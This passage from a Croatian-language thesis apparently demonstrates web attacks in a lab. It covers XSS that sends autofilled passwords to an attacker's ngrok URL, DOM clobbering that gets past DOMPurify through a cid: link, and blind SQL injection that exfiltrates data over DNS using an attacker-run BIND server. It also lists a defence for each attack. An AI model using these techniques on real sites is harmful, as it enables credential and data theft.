kontrolira napadač, koji se u ovom slučaju nalazi na URL-u \texttt{https://647726c8b5d5.ngrok.io/x2cp}. Kako bi se osiguralo da korisnik ne primijeti nešto neuobičajeno, nakon slanja HTTP zahtjeva brišemo \texttt{input} elemente koje je napadač postavio.

Nakon što žrtva otvori web stranicu koja sadrži maliciozan članak, njezini korisnički podatci su poslani na napadačev server, koji dobiva zahtjev prikazan na slici \ref{fig:xss2cp_pay}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.5\textwidth]{xss2cp_ser.jpg}
		\caption{Ispis HTTP zahtjeva na napadačevom serveru} \label{fig:xss2cp_ser}
	\end{center}
\end{figure}

U ispisu HTTP zahtjeva, na napadačevom serveru, pod \texttt{query} vrijednosti su vidljivi lozinka i korisničko ime žrtve.

\subsection{Sprječavanje napada}
Kako ovaj napad ovisi o tome da upravitelj lozinki automatski obavi nadopunjavanje korisničkih podataka, vrlo jednostavan način obrane je koristiti upravitelje lozinki koji pitaju korisnika za dopuštenje prije nadopunjavanja korisničkog imena i lozinke. Upravitelji lozini koji je ugrađen u web preglednik Mozilla Firefox, na kojem je i izveden napad, ima zadanu opciju da upravitelj lozinki pita korisnika prije nadopunjavanja korisničkih podataka.

Također, ovaj napad ovisi o tome da je moguće u blog članak napisati HTML kod koji sadrži nedopuštene znakove, popu šiljastih zagrada \texttt{<>}, dvostrukih navodnika \texttt{"}, jednostrukih navodnika \texttt{'}, vitičastih zagrada \texttt{\{\}}, itd. Ovo se može spriječiti tako da se tekst članka očisti ili sanitizira od nedopuštenih znakova ili se svi znakovi u tekstu članka mogu izbaciti (eng. to escape).

Pored navedenih metoda, za sprječavanje HTML elemenata da šalju HTML zahtjeve na nepoznate URL adrese se može ograničiti primjenom CSP pravila. S CSP pravilima moguće je potpuno ograničiti skriptne HTTP zahtjeve, ili ih ograničiti na samo određene domene. Primjena CSP pravila koji ograničava HTTP zahtjev samo na \texttt{same-origin} adrese bi se preveniralo izvršavanje ovog napada \cite{x2cpport}.

\section{DOM clobbering}
\subsection{Opis web stranice}
Kako bi se demonstrirala DOM clobbering ranjivost potrebna je blog web stranica koja funkcionira na isti način kao i u prethodnom napadu, samo što se ovaj put nije potrebno prijavljivati s korisničkim podatcima. Važno je napomenuti da je ova stranica pokrenuta u Chrome web pregledniku. Primjer ove web stranice je prikazan na slici \ref{fig:dom}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.5\textwidth]{dom.jpg}
		\caption{Blog za DOM clobbering napad} \label{fig:dom}
	\end{center}
\end{figure}

Kod za front-end ovog bloga je prikazan na slici \ref{fig:dom_f}, a kod za back-end je prikazan na slici \ref{fig:dom_b}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{dom_f.jpg}
		\caption{Front-end bloga} \label{fig:dom_f}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{dom_b.jpg}
		\caption{Back-end bloga} \label{fig:dom_b}
	\end{center}
\end{figure}

Kada korisnik pošalje tekst blog članka, web aplikacija na back-endu obrađuje te podatke tako da ih pročisti odnosno sanitizira korištenjem \texttt{DOMPurify} JavaScript biblioteke. Ova biblioteka iz danog teksta briše nepoželjne HTML element i atribute, dok provjerene elemente ova biblioteka ne briše. Nakon što je teks članka pročišćen, on se prikazuje u blogu te se korisnika preusmjerava na web stranicu bloga kako bi vidio novi članak, što se vidi na slici \ref{fig:dom_b}.

Na slici \ref{fig:dom_f} se vidi da web stranica sadrži skriptu koja, prilikom pokretanja web stranice, stvara HTML \texttt{script} element u koji se upisuje tekst. Novi skriptni element se zatim nadodaje u \texttt{body} element web stranice. Tekst koji se upisuje u skriptni element se prvobitno sprema u varijablu korištenjem sljedećeg dizajnerskog uzorka prikazanog na slici \ref{fig:dom_pat}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{dom_pat.jpg}
		\caption{Dizajnerski uzorak} \label{fig:dom_pat}
	\end{center}
\end{figure}

Ovaj dizajnerski uzorak koda se koristi kako bi zato da skripta nepotrebno ne stvara svojstvo objekta koje već postoji, što je u ovom slučaju svojstvo \texttt{doc}. U slučaju da to svojstvo ne postoji, tada se ono stvara sa željenom vrijednosti.

\subsection{Opis Napada}
Kako ova web stranica koristi dizajnerski uzorak prikazan na slici \ref{fig:dom_pat}, tako je ona ranjiva na DOM clobbering napad, jer taj dizajnerski uzorak obavlja inicijalizaciju varijable korištenjem kombinacije globalne varijable i logičkog operatora ILI \texttt{||}. Također, nepovoljna situacija po pitanju sigurnosti web stranice se stvara time što se vrijednost varijable \texttt{doc.path} postavlja u \texttt{script.innerHTML}, koja je nepouzdana funkcija.

Način na koji napadač može zloupotrijebiti ovu ranjivost je da ugnjetava objekt \texttt{dom} i njegovo svojstvo \texttt{path}. Kako se skripta, koja se nalazi unutar HTML-a stranice izvršava prilikom svakog posjeta toj stranici, napadač može konstruirati blog članak koji bi ugnjetavao navedeni objekt i njegovo pripadajuće svojstvo. Prepreka u tom je što je čitavi tekst članka sanitiziran od nepoželjnih HTML elemenata i atributa. Jedan od dozvoljenih HTML elemenata je element \texttt{}, koji se koristi za stvaranje linkova na druge web stranice čija vrijednost je postavljena u \texttt{href} atributu. Međutim, ni u \texttt{href} atributu nisu dopušteni svi protokoli, kao na primjer \texttt{JavaScript:} koji omogućava pisanje JavaScript koda. U dopuštene protokole spadaju \texttt{http}, \texttt{https}, ali i \texttt{cid} protokol, preko kojega napadač može ubaciti maliciozan JavaScript kod.

Kada bi napadač ubacio tekst prikazan na slici u blog, napadač bi time dobio mogućnost izvršavanja bilo kojeg koda unutar web stranice.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{dom_pay.jpg}
		\caption{Maliciozni tekst} \label{fig:dom_pay}
	\end{center}
\end{figure}

Navedeni kod bi ugnjetavao referencu na objekt \texttt{doc} jer su kreirana dva HTML elementa s istom vrijednosti \texttt{id} atributa, te je ta vrijednost upravo \texttt{doc}. U slučaju kada postoje dva HTML elementa s istom vrijednosti atributa \texttt{id} DOM ih stavlja u DOM kolekciju, koja im oblik niza, gdje se svakom elementu pristupa preko broja mjesta u nizu. Ime ove DOM kolekcije glasi \texttt{dom}, jer je to vrijednost atributa koja je zajednička dvama elementima. Međutim, u ovom kodu drugi HTML element ima atribut \texttt{name} s vrijednošću \texttt{path}. U ovakvoj situaciji, drugom \texttt{a} elementu u DOM kolekciji se može pristupiti na korištenjem vrijednosti njegovog \texttt{name} atributa, što je u ovom slučaju \texttt{name}. Ovo znači da bi se vrijednosti \texttt{href} atributa drugog elementa moglo pristupiti preko reference \texttt{doc.path}. Iz ovog razloga bi web stranica u \texttt{script.innerHTML} pridijelila pogrešnu vrijednost, jer je originalna referenca na \texttt{doc.path} ugnjetavana.

Nakon što se pošalje maliciozni tekst sa slike \ref{fig:dom_pay} te se web stranica ponovno učita, izvršava se kod koji se nalazi nakon oznake protokola unutar \texttt{href} atributa, što je u ovo slučaju \texttt{cid} protokol. Kako kod nakon \texttt{cid} protokola glasi \texttt{alert(1)}, web preglednik će stvoriti skočni prozor na kojem je napisan broj 1. Redoslijed odvijanja ovog napada se može vidjeti na slikama \ref{fig:dom_ab} i \ref{fig:dom_eff}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.5\textwidth]{dom_ab.jpg}
		\caption{Web stranica prije slanja malicioznog teksta} \label{fig:dom_ab}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{dom_eff.jpg}
		\caption{Web stranica nakon slanja malicioznog teksta} \label{fig:dom_eff}
	\end{center}
\end{figure}

Ovime vidimo da na ovakav način napadač može zloupotrijebiti DOM clobbering ranjivost i dobiti mogućnost izvršavanja željenog koda unutar web stranice.

\subsection{Sprječavanje napada}
Najjednostavniji način prevencije ovakvog napada je izbjegavanje korištenje nesigurnog dizajnerskog uzorka koji je prikazan na slici \ref{fig:dom_pat}, u kojem se varijabla instancira korištenjem kombinacije globalne varijable ili objekta te logičko operatora ILI \texttt{||}.

Također, je preporučljivo da se nad kritičnim objektima i referencama rade provjere kojima se utvrđuje da li one imaju očekivani oblik te da nisu DOM čvorovi. Drugi način sprječavanja ovakvog napada je korištenje dobro provjerenih i istestiranih biblioteka namijenjenih sprječavanju ovakvih napada.

Kao i u prethodnom napadu, sprječavanje ovog napada se može postići escape-anjem teksta kojeg korisnik proslijedi web stranici. Kao što se vidi iz opisanog napada, sanitiziranje teksta članka nije bilo dovoljno striktno, stoga je potrebno dodati pravila koji ma se pooštrava filter koji se primjenjuje na tekst. Vrlo jednostavan način primjene ove metode je zabrana prihvaćanja bilo kakvog HTML koda u tekst članka.

\section{Slijepi SQLi s izvlačenjem podataka izvan komunikacijskog kanala} \label{sqli}
\subsection{Opis web stranice}
Web stranica koja se koristi za demonstraciju ovog napada, sadrži početnu stranicu te  drugu stranicu koja prima samo korisnike s kolačićima. Početna stranica je ujedno i glavna stranica web aplikacije, napravljene korištenjem Node.js i Express.js biblioteka, te posjeduje linkove na web stranice za napade koji su obrađeni u prethodnim poglavljima. Druga web stranica nema nikakvih funkcionalnosti, već samo jednostavan tekst. Ove stranice se mogu vidjeti na slikama \ref{fig:bsqli_main} i \ref{fig:bsqli_snd}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_main.jpg}
		\caption{Početna stranica web aplikacije} \label{fig:bsqli_main}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.75\textwidth]{bsqli_snd.jpg}
		\caption{Druga web stranica} \label{fig:bsqli_snd}
	\end{center}
\end{figure}

Front-end kod za početnu stranicu se nalazi na slici , dok je na slici front-end kod druge stranice.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_main_f.jpg}
		\caption{Front-end kod početne web stranice} \label{fig:bsqli_main_f}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_snd_f.jpg}
		\caption{Front-end kod druge web stranice} \label{fig:bsqli_snd_f}
	\end{center}
\end{figure}

Back-end kod web aplikacije koji generira kolačiće te provjerava dali korisnik ima kolačiće je prikazana na slici \ref{fig:bsqli_b}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_b.jpg}
		\caption{Back-end kod web aplikacije} \label{fig:bsqli_b}
	\end{center}
\end{figure}

U ovom kodu su prikazana dva međusoftvera (eng. middleware). Prvi međusoftver generira kolačić te ga pohranjuje u MS SQL bazu podataka, u slučaju da korisnik nema kolačić. Drugi međusoftver, koji se primjenjuje na sve putanje osim početne, provjerava dali korisnik ima kolačić i dali je on valjan. Način na koji se provjerava dali kolačić postoji i dali je on valjan je tako što na bazu podataka šalje upit koji se vidi na slici \ref{fig:bsqli_db}. 

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_db.jpg}
		\caption{Metoda kojom se dobivaju detalji korisnika na osnovu kolačića} \label{fig:bsqli_db}
	\end{center}
\end{figure}

Ako upit vrati detalje korisnika, tada su kolačići valjani. Ako kolačić ne postoji ili nije valjan, međusoftver generira grešku, u suprotnom se korisnika propušta do željene stranice.

Način na koji back-end zna koji kolačić posjeduje korisnik, je da web preglednik korisnika, kada pristupa ovim stranicama, u HTTP zahtjevu šalje kolčić unutar \texttt{Cookie} zaglavlja.

\subsection{Opis napada}
Kako ova web aplikacija radi provjeru kolačića preko SQL upita, tako je ona podložna SQLi napadima. Međutim, ova web aplikacija ne prikazuje nikakvo drugačije ponašanje prilikom uzrokovanja kašnjenja ili grešaka u bazi podataka. Jedini način na koji se mogu izvući podatci iz baze je primjernom slijepog SQLi napada s vankanalnim izvlačenjem podataka. Ovo se može ostvariti je korištena MS SQL baza po svojim zadanim (eng. default) postavkama omogućava izvršavanje DNS upita. Uz to MS SQL podržava izvršavanje naslaganih upita (eng. stacked query), koji su potrebni prilikom izvođenja ovog napada.

Da bi se ovaj napad mogao izvesti napadač mora napraviti vlastiti DNS server koji bi razlučivao zahtjeve na URL domenu koju on posjeduje. Za potrebe ove demonstracije DNS server, baza podata te web aplikacije se nalaze unutar lokalne mreže. Mrežna infrastruktura koja je korištena je prikazana na slici .

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_arh.jpg}
		\caption{Mrežna infrastruktura} \label{fig:bsqli_arh}
	\end{center}
\end{figure}

Iz ove slike se vidi da se MS SQL baza podataka nalazi unutar \texttt{loopback} mreže s adresom \texttt{127.0.0.0}. Napadačev DNS server, koji razlučuje upite prema domeni koju napadač kontrolira, se nalazi unutar virtualne mreže VirtualBox. Za potrebe demonstracije ovog napada DNS server je postavljen unutra virtualne mreže na Kali Linux virtualnoj mašini. Računalo koje je prikazano u infrastrukturi ima pokrenutu Kali Linux virtualnu mašinu te MS SQL bazu podataka. Računalo s virtualnom mašinom komunicira preko virtualnog adaptera koji računalu daje zasebnu IP adresu unutar virtualne mreže. Računalo u ovoj situaciji ima ulogu posrednika između MS SQL baze podataka i DNS servera. Kako je MS SQL pokrenut na računalu, tako obradu svih mrežnih zahtjeva baze podataka vrši računalo. U te mrežne zahtjeve spadaju i DNS upiti koje MS SQL baza prosljeđuje računalo, kako bi ono pronašlo odgovarajuće servere. Kako bi računalo moglo razlučiti sve domene u IP adrese, u mrežnim postavkama računala su postavljene IP adrese DNS server, koji se mogu vidjeti na slici \ref{fig:bsqli_ns}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.7\textwidth]{bsqli_ns.jpg}
		\caption{Mrežne postavke} \label{fig:bsqli_ns}
	\end{center}
\end{figure}

U mrežnim postavkama se mogu vidjeti dvije IP adrese za DNS servere. Prva IP adresa se odnosi na napadače DNS server pokrenut na Kali Linux mašini s adresom \texttt{192.168.56.101}, dok se druga adresa \texttt{192.168.1.1}, odnosi na DNS server koji se koristi za razlučivanje domena za ostatak interneta.

Kako bi se na Kali Linux postavio DNS server, koristi se BIND alat. Da bi se postavile domene koje DNS server može razlučivati potrebno je instalirati BIND na Linux sustav. Zatim, je potrebno kreirati zonu za lokalnu domenu te subdomenu koja će se koristiti. Da bi se to ostvarilo mora se modificirati dokument \texttt{named.conf.options} kao što se vidi na slici \ref{fig:bsqli_nco}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_nco.jpg}
		\caption{Named.config.option} \label{fig:bsqli_nco}
	\end{center}
\end{figure}

U ovoj konfiguraciji je dodano da DNS sluša na portu 53, koji je namijenjen za DNS upite, i na adresama \texttt{127.0.0.1} te \texttt{192.168.56.101}. Također, nadodano je da DNS server prima upite na \texttt{localhost} i \texttt{192.168.56.0/24} mrežama te su dopušteni rekurzivni upiti što je ključni element da bi ovaj napad radio. Promjene su rađene i na dokumentu \texttt{named.conf.default-zones} koji je prikazan na slici \ref{fig:bsqli_ncdz}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_ncdz.jpg}
		\caption{Named.config.default-zones} \label{fig:bsqli_ncdz}
	\end{center}
\end{figure}

U ovom dokumentu je nadodan \texttt{arrdub.net} zona, koja je konfigurirana u dokumentu \texttt{db.arrdub.net} prikazana na slici \ref{fig:bsqli_dan}. 

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_dan.jpg}
		\caption{Db.arrdub.net} \label{fig:bsqli_dan}
	\end{center}
\end{figure}

